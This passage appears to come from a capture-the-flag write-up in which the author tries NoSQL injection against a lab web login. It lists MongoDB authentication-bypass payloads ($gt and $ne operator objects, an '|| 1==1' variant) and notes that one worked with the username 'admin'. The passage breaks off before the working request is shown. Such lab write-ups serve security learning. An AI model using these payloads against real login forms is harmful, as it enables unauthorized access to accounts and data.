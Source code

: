 ```json
{
    "username":"shoppy",
    "password":{
        $gt:""
    }
}
```

- We get an error that reveals a username `jaeger`  
![error](../.res/2022-09-24-15-49-51.png)  
- I did forget the quotes for the $gt. Let's try this

```json
{
    "username":"jaeger",
    "password":{
        "$gt":""
    }
}
```

- We get the same error
- Let's have a look at NoSQLInjection payloads from [payloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection)
- These give a 504

```json

{"username": {"$ne": null}, "password": {"$ne": null}}

========================================================

{"username": {"$ne": "foo"}, "password": {"$ne": "bar"}}

```

- We do not get anything here let's try this `|| 1==1` which looks like the classic sql injection translated in noSQL. You cand find it in [this section](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection#mongodb-payloads) of payloadAllTheThings github
- So let's change our request back in x-www-form-urlencoded. I tried with the username `jaeger` and got nothing but with `admin` it worked.
- Here is the working request
